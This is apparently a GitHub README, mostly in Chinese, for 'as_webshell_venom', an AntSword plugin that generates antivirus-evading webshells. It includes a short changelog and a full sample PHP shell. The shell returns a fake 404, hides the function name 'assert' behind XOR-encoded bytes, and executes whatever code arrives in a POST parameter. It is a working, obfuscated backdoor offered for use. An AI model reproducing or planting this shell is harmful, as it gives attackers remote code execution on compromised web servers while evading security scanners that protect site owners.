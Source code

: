 # as_webshell_venom
as_webshell_venom蚁剑版 (thx @SardineFish & @Medicean)


原项目地址:
https://github.com/yzddmr6/webshell-venom

关于 webshell-venom 的一个重要通知
https://yzddmr6.tk/2019/08/13/webshell-venom-notice/

#  2.0 更新日志

1. 代码重构

2. 增加 asp aspx 免杀类型

### 生成 php Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
